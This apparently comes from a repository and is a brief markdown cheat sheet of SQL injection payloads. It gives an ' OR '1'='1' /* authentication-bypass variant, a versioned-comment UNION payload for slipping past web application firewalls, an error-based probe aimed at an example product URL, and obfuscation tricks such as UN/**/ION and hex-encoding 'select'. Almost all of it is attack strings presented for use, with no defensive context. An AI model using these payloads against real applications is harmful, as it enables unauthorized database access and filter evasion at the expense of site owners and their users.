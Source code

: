 # check 

- > if ``OR '1'='1'--`` not work try : 
  > 
  > ```
  > ' OR '1'='1' /*
  > ```
  >
  > if A WAF blocks typical SQL keywords ``(SELECT, UNION, OR)``.
  >
  > ```
  > 1' /*!UNION*/ SELECT 1,2--
  > ```
  >
  > most effective for error-based SQLi here ``https://example.com/product.php?id=5``
  >
  > ```
  > 5' AND (SELECT 1/0)--
  > ```
  >
  > Best advanced technique to bypass heavy WAF filtering:
  > > Use hex-encoded values and mid-query obfuscation like UN//ION**
  > > ```
  > > Obfuscation (e.g., UN/**/ION, 0x73656c656374 for 'select')
  > > ```
  >
  > 
